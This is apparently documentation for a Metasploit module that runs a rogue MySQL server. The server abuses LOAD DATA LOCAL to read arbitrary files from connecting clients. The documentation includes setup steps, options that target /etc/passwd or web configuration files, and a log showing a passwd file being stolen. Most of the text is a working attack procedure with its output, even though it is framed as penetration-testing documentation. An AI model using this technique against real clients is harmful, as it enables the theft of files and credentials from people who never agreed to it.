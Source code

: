## Overview

This module creates a rogue MySQL server which requests a file from the client. This is possible through the LOAD DATA LOCAL statement. The rogue server sends this statement to the client and gets access to any file the user has read permissions.

## Verification steps

1. Start `msfconsole`
2. Enter: `use auxiliary/server/mysql_rogue.py`
3. Enter: `run`

4. Start another `msfconsole`
5. Enter: `use auxiliary/scanner/mysql/mysql_hashdump`
6. Enter: `set RHOSTS 127.0.0.1`
7. Enter: `run`

8. You should see the data of the exfiltrated file

## Options

**output_file**
The file where the exfiltrated filedata should be stored. The default output_file is located `/tmp/mysql_rogue_output.txt`. 

**lhost**
The local IP address to expose the MySQL rogue server to. The default IP address is `127.0.0.1`.

**lport**
The local Port to expose the MySQL rogue server to. The default port is `3306`. 

**file**
The remote file to exfiltrate, e.g. `../../admin/include/configuration.php`. The default file is `/etc/passwd`. 

## Scenarios

### Ubuntu client 20.04

Start the mysql rogue server
```
msf6 > use auxiliary/server/mysqlrogue 
msf6 auxiliary(server/mysqlrogue) > options

Module options (auxiliary/server/mysqlrogue):

   Name         Current Setting              Required  Description
   ----         ---------------              --------  -----------
   file         /etc/passwd                  yes       File trying to retrieve
   lhost        127.0.0.1                    yes       Host to listen
   lport        3306                         yes       Port to listen
   output_file  /tmp/mysql_rogue_output.txt  no        Output file to save information to

msf6 auxiliary(server/mysqlrogue) > run
[*] Auxiliary module running as background job 0.

[*] Starting server...
msf6 auxiliary(server/mysqlrogue) > 
[*] Evil mysql server is now listening \ on 127.0.0.1:3306 -- Kill the job once done
```

Try to connect to the mysql Rogue Server with the metasploit module auxiliary/scanner/mysql/mysql_hashdump
```
msf6 > use auxiliary/scanner/mysql/mysql_hashdump 
msf6 auxiliary(scanner/mysql/mysql_hashdump) > options

Module options (auxiliary/scanner/mysql/mysql_hashdump):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        The password for the specified username
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     3306             yes       The target port (TCP)
   THREADS   1                yes       The number of concurrent threads (max one per host)
   USERNAME                   no        The username to authenticate as

msf6 auxiliary(scanner/mysql/mysql_hashdump) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 auxiliary(scanner/mysql/mysql_hashdump) > run

[-] 127.0.0.1:3306        - Auxiliary failed: NoMethodError undefined method `[]' for nil:NilClass
[-] 127.0.0.1:3306        - Call stack:
[-] 127.0.0.1:3306        -   /opt/metasploit-framework/embedded/framework/modules/auxiliary/scanner/mysql/mysql_hashdump.rb:61:in `run_host'
[-] 127.0.0.1:3306        -   /opt/metasploit-framework/embedded/framework/lib/msf/core/auxiliary/scanner.rb:124:in `block (2 levels) in run'
[-] 127.0.0.1:3306        -   /opt/metasploit-framework/embedded/framework/lib/msf/core/thread_manager.rb:105:in `block in spawn'
[*] Auxiliary module execution completed
```
Don't mind that the mysql_hashdump auxiliary failed. The file is already exfiltrated.

Follow the connection setup on mysql_rogue and watch the extracted file
```
[*] new connection from 127.0.0.1:33491
[*] new connection from 127.0.0.1:47838
[-] Target client has LOAD DATA LOCAL bit NOT set -- exploit will probably fail...
[*] Successfully extracted file from 127.0.0.1:47838:

root:x:0:0:Herr und Meister:/root:/bin/bash
bin:x:1:1:bin:/bin:/bin/bash
daemon:x:2:2:daemon:/sbin:/bin/bash
lp:x:4:7:lp daemon:/var/spool/lpd:/bin/bash
news:x:9:13:News system:/etc/news:/bin/bash
uucp:x:10:14:Unix-to-Unix CoPy system:/etc/uucp:/bin/bash
at:x:25:25::/var/spool/atjobs:/bin/bash
wwwrun:x:30:65534:Daemon user for apache:/tmp:/bin/bash
squid:x:31:65534:WWW proxy squid:/var/squid:/bin/bash
ftp:x:40:2:ftp account:/usr/local/ftp:/bin/bash
firewall:x:41:31:firewall account:/tmp:/bin/false
named:x:44:44:Nameserver Daemon:/var/named:/bin/bash
tapico:x:501:100:Thomas Prizzi:/home/tapico:/bin/bash
luke:x:502:100:Lukas Himmelsgeher:/home/luke:/bin/bash
lori:x:503:100:Lori Kalmar:/home/lori:/bin/bash
grayson:*:504:100:Grayson Death Carlyle:/home/grayson:/bin/bash
nobody:x:65534:65534:nobody:/tmp:/bin/bash

[*] extracted file saved to /tmp/mysql_rogue_output.txt
```
